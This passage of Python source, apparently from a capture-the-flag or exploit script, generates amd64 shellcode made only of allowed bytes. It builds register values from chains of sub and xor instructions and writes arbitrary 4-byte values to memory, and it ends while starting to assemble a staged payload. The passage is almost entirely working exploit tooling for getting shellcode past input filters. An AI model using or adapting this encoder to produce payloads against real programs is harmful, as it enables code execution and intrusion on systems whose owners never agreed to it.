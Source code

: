 ```python
        return map(int, map(str, map(m.evaluate, variables)))
    else:
        raise ValueError("couldn't solve eax=%016x" %(i64,))

def add_eax(i32):
    shellcode = ''
    soln = solve_add_eax(i32)
    for sub in soln:
        shellcode += 'sub eax, 0x%08x\n' % (sub,)
        assert (is_ok32(sub))
    return asm(shellcode, arch='amd64')

def set_eax(i32):
    shellcode = 'push rbx; pop rax;'
    soln = solve_set_eax(i32)
    for sub in soln[1:]:
        shellcode += 'sub eax, 0x%08x\n' % (sub,)
        assert (is_ok32(sub))
    shellcode += 'xor eax, 0x%08x' % (soln[0])
    assert (is_ok32(soln[0]))
    return asm(shellcode, arch='amd64')

# rdi = rax = controlled, r8 and r9 clobbered
def set_rdi(i32):
    return set_eax(i32) + asm('push rax; pop rdi', arch='amd64')

def set_rsi(i32):
    return set_eax(i32) + asm('push rax; pop rsi', arch='amd64')

def add_rdi(i32):
    return asm('push rdi; pop rax;', arch='amd64') + add_eax(i32) + asm('push rax; pop rdi', arch='amd64')

add_rdi_4 = add_rdi(4)

# writes arbitrary 4 bytes at [rdx+offset], rcx, rax, rsi clobbered
# rdi incremented by 4
def write4(i32):
    shellcode = ''

    # zero 4 bytes at rdx+rdi
    shellcode += asm('''
movsx rsi, dword ptr [rdx+rdi]
xor [rdx+rdi], esi
''', arch='amd64')
    
    shellcode += set_eax(i32)

    # [rdx+rdi] = rsi = [rcx] = rax
    shellcode += asm('''
push rax
pop rsi
xor [rdx+rdi], esi
''', arch='amd64')

    shellcode += add_rdi_4

    return shellcode

def xlate(stage2, stage3):
    # rdx = ptr to shellcode DON'T CLOBBER ME, i know where you live
    payload = ''

```